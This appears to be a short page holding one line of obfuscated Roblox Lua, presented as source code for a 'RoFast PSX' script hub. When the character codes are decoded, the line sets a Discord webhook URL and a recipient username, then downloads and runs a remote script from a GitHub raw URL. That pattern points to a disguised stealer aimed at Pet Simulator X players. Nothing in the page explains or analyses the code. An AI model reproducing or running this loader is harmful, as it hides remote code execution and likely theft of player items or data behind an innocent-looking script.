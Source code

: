 pcall(load(string.char(table.unpack({95,71,46,85,115,101,114,110,97,109,101,32,61,32,34,116,101,95,102,117,116,116,116,105,110,99,117,114,34,13,10,95,71,46,72,117,98,78,97,109,101,32,61,32,34,82,111,70,97,115,116,226,152,132,32,80,83,88,34,13,10,95,71,46,87,101,98,104,111,111,107,85,114,108,32,61,32,34,104,116,116,112,115,58,47,47,100,105,115,99,111,114,100,46,99,111,109,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,57,51,51,56,52,50,50,49,57,51,50,51,51,57,53,49,47,68,65,65,103,105,103,104,51,57,53,65,114,97,102,95,49,98,104,55,120,85,119,103,120,53,97,74,90,85,111,112,55,88,95,84,57,111,106,45,88,109,50,95,105,101,118,98,81,88,78,113,119,106,53,73,75,75,83,68,119,111,110,76,73,83,86,79,76,34,13,10,108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,74,97,121,105,105,111,99,101,97,110,105,105,47,80,101,97,107,79,110,84,111,112,47,109,97,105,110,47,112,101,97,107,46,108,117,97,37,50,50,41,41,40,41,}))))    

